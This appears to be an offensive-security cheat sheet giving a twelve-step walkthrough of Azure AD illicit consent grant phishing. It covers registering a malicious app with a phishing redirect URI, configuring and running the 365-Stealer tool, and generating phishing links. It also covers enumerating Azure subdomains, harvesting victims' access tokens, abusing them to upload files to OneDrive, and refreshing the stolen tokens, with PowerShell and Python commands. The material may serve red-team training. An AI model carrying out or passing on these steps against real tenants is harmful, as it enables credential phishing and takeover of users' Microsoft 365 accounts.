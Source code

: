 # Illicit Consent Grant phishing

Illicit consent grant phishing involves tricking users into granting unauthorized access to applications, often by disguising malicious requests as legitimate consent requests.

Here are the steps and commands involved in executing this attack:

### 1) Create an Application

Navigate to "Azure Active Directory" in the Azure portal.

Go to "App registrations" and click "New registration."

Set an application name and choose appropriate settings.

Use the URL of the phishing site in the redirect URI.

### 2) Create Client Secret

Go to "Certificates & Secrets" and create a new client secret.

Copy the generated client secret.

### 3) Add API Permissions

Go to "API permissions" and add permissions like 'user.read' and 'User.ReadBasic.All' for the Microsoft Graph.

### 4) Check User Consent Permissions

    Import-Module AzureADPreview.psd1

Use another tenant account

    $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential ("<USERNAME>", $passwd)

    Connect-AzureAD -Credential $creds

    (Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

### 5) Setup the 365-Stealer

Link: https://github.com/AlteredSecurity/365-Stealer

Copy the 365-stealer directory to the xampp directory.

Edit the 365-stealer.py and set the CLIENTID, REDIRECTEDURL, and CLIENTSECRET.

### 6) Start the 365-Stealer

    & "C:\Program Files\Python38\python.exe"
    C:\xampp\htdocs\365-Stealer\365-Stealer.py --run-app

### 7) Get the Phishing Link

Browse to https://localhost and click on "readmore." Copy the generated phishing link.

### 8) Enumerate Applications for Phishing

Edit the permutations.txt file to add permutations

    . C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1

    Invoke-EnumerateAzureSubDomains -Base <BASE> –Verbose

### 9) Get the Access Tokens

Browse to http://localhost:82/365-Stealer/yourvictims/ and copy the access token from access_token.txt.

### 10) Get Admin Consent

Grant admin consent for additional permissions required for the attack.

### 11) Abuse the Access Token

Upload a Word document to OneDrive using the stolen access token.

### 12) Refresh All Tokens

    python3 365-Stealer.py --refresh-all
